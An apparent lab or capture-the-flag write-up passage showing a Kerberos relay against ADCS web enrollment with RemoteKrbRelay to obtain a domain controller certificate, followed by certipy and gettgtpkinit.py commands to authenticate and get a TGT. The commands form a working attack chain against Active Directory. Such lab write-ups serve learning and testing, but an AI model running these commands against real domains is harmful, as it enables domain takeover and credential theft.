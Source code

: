 To perform a Kerberos relay on ADCS web enrollment, a tool called [RemoteKrbRelay](https://github.com/CICADA8-Research/RemoteKrbRelay) can be used. This tool is similar to KrbRelayUp, but it allows performing Kerberos relay remotely instead of doing it locally.

>_You probably know [KrbRelay](https://github.com/cube0x0/KrbRelay) and [KrbRelayUp](https://github.com/Dec0ne/KrbRelayUp), but what if I told you it could be done remotely? With RemoteKrbRelay this becomes a reality_

```
RemoteKrbRelay.exe -adcs -template DomainController -victim dc-jpq225.cicada.vl -target dc-jpq225.cicada.vl -clsid d99e6e74-fc88-11d0-b498-00a0c90312f3
```

<img src="attachments/1901968ea675d9645f8fee2d8205acee.png" />

Copied the base64 string to a file named `cert.p12` and tried authenticating via PKINIT from Certipy, but it failed.

```
certipy auth -pfx cert.p12 -dc-ip 10.10.104.125 -domain cicada.vl
export KRB5CCNAME=dc-jpq225.ccache
```

<img src="attachments/9f3729567dd1a07aa4f55cde340f4b18.png" />

Tried using `gettgtpkinit.py` and was successfully able to obtain a TGT.
